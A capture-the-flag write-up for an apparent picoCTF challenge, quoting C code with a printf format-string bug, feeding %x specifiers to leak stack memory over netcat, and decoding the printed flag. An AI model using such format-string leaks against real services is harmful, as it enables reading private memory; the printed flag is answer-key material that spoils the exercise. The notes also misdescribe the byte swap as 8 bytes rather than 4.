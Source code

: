 # Description

**tags:**

## Notes
- Connect to the server `nc mercury.picoctf.net 16439`
- `cat vuln.c` parts that are interesting
```int buy_stonks(Portfolio *p) {
        if (!p) {
                return 1;
        }
        char api_buf[FLAG_BUFFER];
        FILE *f = fopen("api","r");
        if (!f) {
                printf("Flag file not found. Contact an admin.\n");
                exit(1);
        }
        fgets(api_buf, FLAG_BUFFER, f);
```
```// TODO: Figure out how to read token from file, for now just ask

        char *user_buf = malloc(300 + 1);
        printf("What is your API token?\n");
        scanf("%300s", user_buf);
        printf("Buying stonks with token:\n");
        printf(user_buf);
```

## Connecting to server
```nc mercury.picoctf.net 16439
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
```
Entering 2 will result :
```Portfolio as of Current_time

You don't own any stonks!
Goodbye!
```

Entering 1 will result :
```Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
```
- Whatever value you put in will get executed ( Input is the API? )

## Looking back at the code

```int buy_stonks(Portfolio *p) {
        if (!p) {
                return 1;
        }
        char api_buf[FLAG_BUFFER];
        FILE *f = fopen("api","r");
        if (!f) {
                printf("Flag file not found. Contact an admin.\n");
                exit(1);
        }
        fgets(api_buf, FLAG_BUFFER, f);
```

- From the snippet above, API token looks to be the input.
- The ONLY validation is when the token isn't entered.

```// TODO: Figure out how to read token from file, for now just ask

        char *user_buf = malloc(300 + 1);
        printf("What is your API token?\n");
        scanf("%300s", user_buf);
        printf("Buying stonks with token:\n");
        printf(user_buf);
```

- Comment show that the token is only being asked ( does not get checked )
- Memory space is created with `malloc()` for the API token
- Last line prints out API token with `printf()`

## Input validation
print type specifiers for `printf()` :
Reference: 
https://cplusplus.com/reference/cstdio/printf/

Tried inputting different type specifiers: 
- `%p` for point address
Returned `0x9d7e410` - Converts into a text = `�~A`
- `%c` for character
Returned `�`
- `%x` for hexadecimal
Returned `809e3d0` - Converts into a text = `=`
- `%X` for hexadecimal uppercase
Returned `C`

- Tried inputting multiple `%X`s
Returned :
 `93CF3D0804B00080489C3F7FBBD80FFFFFFFF193CD160F7FC9110F7FBBDC7093CE180193CF3B093CF3D06F6369707B465443306C5F49345F74356D5F6C6C306D5F795F79336E6263376365616336FFEB007DF7FF6AF8F7FC9440C3844B0010F7E58CE9F7FCA0C0F7FBB5C0F7FBB000FFEB7858F7E4968DF7FBB5C08048ECAFFEB78640F7FDDF09804B000F7FBB000F7FBBE20FFEB7898F7FE3D50F7FBC890C3844B00F7FBB000804B000FFEB78988048C8693CD160`

Converts into :
`^fî?°^`H^|?YØÿÿÿñ^fìgYÜp^fí^fî=nãðocip{FTC0l_I4_t5m_ll0m_y_y3nbc7ceac6ÿ^~}
÷ùJ^~÷ùJø÷öt@â÷ßlé÷ö^`À÷õ^uÀ÷õ^pÿ^~ÜH÷Þv^m÷õ^uÀ^`Hì¯ùíÅ@÷÷¿     
^`KYYâùíÈ^o`âùíÈ^o^aÕZ^i ¡ Y°ÿ^~Ü^h^`HÈhnÁ`ÿ^~Ütÿ^~Ü^h^`H¾^=Y?Àÿ^~Ý<ÿ^~Ý4
- Looks like the flag is in it

Removed unnecessary bytes:
`6F6369707B465443306C5F49345F74356D5F6C6C306D5F795F79336E6263376365616336FF9E06FF9E007D`
Converts to : 
`ocip{FTC0l_I4_t5m_ll0m_y_y3nbc7ceac6ÿ}`
- Looks like it's using different byte order sequence.
- Tried converting endianness
    `}ÿÿ6caec7cbn3y_y_m0ll_m5t_4I_l0CTF{pico`
- Found the sequnce order ( 8-bytes are flipped )
    E.g. First 8 bytes `6F 63 69 70` to `70 69 63 6F`
- Manually relocated bytes
`7069636F4354467B495F6C3035745F346C6C5F6D795F6D306E33795F63376362366361657D00957D009EFF`

Converts to :
**Flag found: picoCTF{I_l05t_4ll_my_m0n3y_c7cb6cae}^~ÿ**

Total time spent : ~6 hours


Hexadecimal Converter: 
https://www.scadacore.com/tools/programming-calculators/online-hex-converer

Endianness Converter:
https://www.save-editor.com/tools/wse_hex.html